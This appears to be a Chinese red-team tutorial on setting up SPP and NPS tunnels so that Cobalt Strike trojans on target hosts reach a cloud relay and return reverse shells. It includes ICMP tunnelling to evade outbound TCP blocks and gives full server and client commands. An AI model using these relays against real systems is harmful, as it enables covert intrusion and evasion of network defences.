# 1. 前言

在上篇文章中已经详细的介绍了，隧道搭建与代理转发这两方面的基础知识，这里就不在赘述了，直接演示剩下的两个工具，SPP与NPS这两个工具。

# 2. SPP

关于SPP的具体使用方式可以直接去github上查询，讲解的很详细，这里只是简单的演示一下.

支持的协议：tcp、udp、udp、icmp、http、kcp、quic

支持的类型：正向代理、反向代理、socks5正向代理、socks5反向代理

[SPP下载](https://github.com/esrrhs/spp)

## 2.1. SPP代理通信

这里的代理通信和前几个是一样的工作原理，采用的是反向代理，这里攻击机无出网IP，生成的木马无法反弹shell，而这时候采用代理方式可以进行解决，准备一台云服务器，将云服务器设置为服务端，攻击机设置为客户端，通过某个端口将客户端与服务端连接起来，然后通过设置SPP的反向代理，将本地的某个端口映射到服务器的某个端口，当有木马访问服务器的端口的时候，相当于去访问攻击机的端口，而攻击机只需要监听本地的端口，即可实现上线。


### 2.1.1. 服务端配置

这里需要提前准备一台云服务器，然后给文件添加执行权限。

```
chmod +x spp  ##添加执行权限
./spp -type server -proto tcp -listen :8888 ##启动spp，并设置为服务端，通信协议为tcp，监控本地的8888端口。
```



### 2.1.2. 客户端配置

这里在本地攻击机上设置即可，主要就是当有机器去访问服务器的7777端口，服务器就会将流量转发到本地的5555端口上，相当于访问服务器的7777端口就是访问本地的5555端口。

```
chmod +x spp  ##添加执行权限
./spp -name "text" -type reverse_proxy_client -server 服务器IP地址:8888 -fromaddr :7777 -toaddr :5555 -proxyproto tcp    ## 设置一个名字，连接服务器的IP地址及端口，将服务器的端口7777映射到本地的端口5555上，设置通信协议为tcp。
```



### 2.1.3. CS设置

这里CS需要设置两个监听器，一个用于生成木马，一个用于接收反弹shell。

#### 2.1.3.1. 设置生成的监听器

这里的监听器IP地址要设置为服务端的IP地址，端口为刚刚的7777，相当于木马执行后，会去访问服务端的7777端，而之前的设置就是将服务端的7777端口信息转发到本地5555.



#### 2.1.3.2. 设置监听的监听器

这里只需要监听本地的IP地址以及5555端口即可。



### 2.1.4. 执行效果

可以看到成功上线。



## 2.2. SPP隧道建立

这里主要就是目标主机的出网TCP被禁止，但是ICMP协议是能够通信的，所以通过SPP将目标主机上的TCP流量伪装为ICMP协议转发给服务端。



### 2.2.1. 服务端设置

这里需要设置监听的是icmp协议。

```
./spp -type server -proto ricmp -listen 0.0.0.0  ##这里设置监听ICMP协议，全端口
```



### 2.2.2. 客户端配置

这里的客户端配置，就需要到目标主机上设置，由于是将本地的TCP伪装为ICMP所以需要转发本地的端口。

```
spp -name “test” -type proxy_client -server 服务端IP -fromaddr :5555 -toaddr :6666 -proxyproto tcp -proto ricmp
```



### 2.2.3. CS设置

这里CS需要设置两个监听器，一个用于生成木马，一个用于接收反弹shell。

#### 2.2.3.1. 设置生成的监听器

这里要生成本地的5555端口，因为客户端上已经设置了将5555端口转发了。



#### 2.2.3.2. 设置监听的监听器

这里只需要监听本地的IP地址的6666端口即可。



### 2.2.4. 执行效果

同样这里成功上线。



# 3. NPS

nps是一款轻量级、高性能、功能强大的内网穿透代理服务器。目前支持tcp、udp流量转发，可支持任何tcp、udp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析等等……），此外还支持内网http代理、内网socks5代理、p2p等，并带有功能强大的web管理端。

[NPS下载](https://github.com/ehang-io/nps)

## 3.1. NPS原理

NPS的原来其实和上面的SPP的代理通信原理是一致的，这里就不再次介绍了。

## 3.2. NPS安装

由于NPS的服务端与客户端是不同的，所以在下载的时候需要注意不要混淆，同时在配置文件中会涉及到很多的端口或者一些配置，默认情况是不需要修改的，直接使用最好，如果需要修改，请参考官方文档。

[官方文档](https://github.com/ehang-io/nps/blob/master/README_zh.md)

```
nps默认配置文件使用了80，443，8080，8024端口
80与443端口为域名解析模式默认端口
8080为web管理访问端口
8024为网桥端口，用于客户端与服务器通信
默认账号密码：admin/123
```

### 3.2.1. 服务端配置

这里下载后进行解压，然后执行安装。

```
./nps install
nps start  ##启动nps
nps stop   ##停止nps
nps restart ##重启nps
```



#### 3.2.1.1. 访问服务端

云服务器地址:8080，默认账号密码：admin/123



#### 3.2.1.2. 建立隧道

这里建立的是一个TCP隧道，客户端ID不用管，随便写一个，服务端口，就是其它用户访问的端口，简单来说就是将服务器上的那个端口转发到客户机上，目标端口就是转发到客户机上哪个端口。



#### 3.2.1.3. 隧道状态

可以看到目前的隧道是离线状态。



### 3.2.2. 客户端配置

同样客户端这里不要安装错误了，要按照客户端，不要安装成服务端了，客户端这里只要解压就OK了。

#### 3.2.2.1. 修改配置文件

在conf文件夹下有一个npc.conf文件，在里面我们修改的地方只有一个，就是服务器的地址与端口，也就是与服务器通信的地址和端口，其它的都是默认的，当然你也可以选择修改，不过修改的话最好对照官方文档修改。

这里我感觉，其实都不用修改，因为下面启动的时候，还需要添加服务器的IP与端口。

```
server_addr=124.XXX.XXX.62:8024   ##设置服务端地址:端口默认8024
vkey=123                          ##客户端密钥
```



#### 3.2.2.2. 启动客户端

这里输入命令即可，不过需要注意这个是Linux客户端。

```
./npc -server=124.XX.XX.62:8024 -vkey=123 -type=tcp  ##这里就是设置服务端IP与端口 设置的密钥 连接的协议类型。
```



#### 3.2.2.3. 隧道状态

这里就可以查看一下隧道的状态，可以看到这里是成功上线了。



## 3.3. CS设置

这里CS需要设置两个监听器，一个用于生成木马，一个用于接收反弹shell。

### 3.3.1. 设置生成的监听器

这里的监听器IP地址要设置为服务端的IP地址，端口为刚刚的5656，相当于木马执行后，会去访问服务端的5656端，而之前的设置就是将服务端的5656端口信息转发到本地6666。



### 3.3.2. 设置监听的监听器

这里只需要监听本地的IP地址以及6666端口即可。



## 3.4. 执行效果

可以看到成功上线了。



## 3.5. 总结

关于NPS方面还有很多的使用方式，建议去看看官方手册。